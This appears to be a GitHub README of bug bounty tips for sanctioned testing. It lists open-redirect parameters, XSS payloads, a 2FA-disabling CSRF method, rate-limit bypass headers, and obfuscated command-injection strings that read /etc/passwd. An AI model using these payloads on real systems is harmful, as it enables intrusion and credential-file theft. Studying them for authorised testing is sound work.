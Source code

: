 # Bug Bounty Tips from Twitter
This is a collection of Bug Bounty Tips collected from infosec professionals / bug hunters on twitter.

* Also a [Curated list of Bug Bounty Writeups](https://github.com/devanshbatham/Awesome-Bugbounty-Writeups)
***

## SMTP server takeover
```
1. Visit target.com
2. Masscan on target.com
3. Get SMTP(25) port open
4. Run netcat
    nc -v <ip><port>
```

**Observations:**
* The only exploitable thing is if the SMTP server allows unauthenticated emails being sent, as that an attacker could use the company SMTP server to send spam/junk mails. and probably will be a P3 or P4, or a nice informative because its a grey area bug.

***

## 25 Open Redirect Dorks 

```javascript
/{payload}
?next={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={pay load}
?return_path={payload}
```

***

## XSS Payloads

```html
#><img src=x onerror=alert()>.jpg
```
***

## XSS Email User Input 
* The email: test@test.com is being reflected
* But its required "@" in the email field
* Following up the [Brutelogic explanation](https://brutelogic.com.br/blog/xss-limited-input-formats/) for limited input formats
* **The Payload tested in this case:**
```html
“<svg/onload=alert(1)>”@x.y 
```
**Observations:**


* [Medium post source](https://medium.com/bugbountywriteup/reflected-user-input-xss-c3e681710e74)
***

## Bypassing 2FA with CSRF (abusing the 2FA functionality)

> 1) Create 2 accounts on target.com
> 2) Turn on 2FA in both accounts
> 3) Click on disable 2FA for any of the account and capture it in burp
> 4) Close the tab for first account and stay loggend in on 2nd account
> 5) Simply submit the CSRF PoC in a new tab
> 6) See if the 2FA is disabled in the 2nd account

***

## Bypassing Rate Limit on Header

```http
Add header/s with request:

X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```
**Observations:**
* This only works, if the load balancer does not discard these headers before passing the request. Whenver they do not discard them but rely on them it is a security mistake. Also try like local addresses such as 127.0.0.1 to see if it yields extra data in the response

***

## SSRF using assetfinder & waybackurls
* Find API links in subdomains
```bash
assetfinder --subs-only http://target.com | waybackurls | grep "?url="
```
Tools from @tomnomnom
* [assetfinder](https://github.com/tomnomnom/assetfinder)
* [waybackurls](https://github.com/tomnomnom/waybackurls)

***

## Comand Injection - Filter Bypass

```console
cat /etc/passwd
cat /e"t"c/pa"s"swd
cat /'e'tc/pa's' swd
cat /etc/pa??wd
cat /etc/pa*wd
cat /et' 'c/passw' 'd
cat /et$()c/pa$()$swd
cat /et${neko}c/pas${poi} swd
{cat,/etc/passwd} 
*echo "dwssap/cte/ tac" | rev
$(echo Y2FOIC9ldGMvcGFzc3dkCg== base64 -d)
w\ho\am\i
/\b\i\n/////s\h
who$@ami
xyz%0Acat%20/etc/passwd
IFS=,;`cat<<<uname,-a`
/???/??t /???/p??s??
test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```
***

## Finding Google Maps API Key

>1. Find the page on http://target.com where the google map is embedded .
>2. View page source.
>3. Got google map key.
>4. Use https://github.com/ozguralp/gmapsapiscanner to exploit.

**Observations:**
* Another tools to find secrets (api keys, access tokens, JWT etc):
    - [SecretFinder](https://github.com/m4ll0k/SecretFinder)
    - [JSParser](https://github.com/nahamsec/JSParser)

***
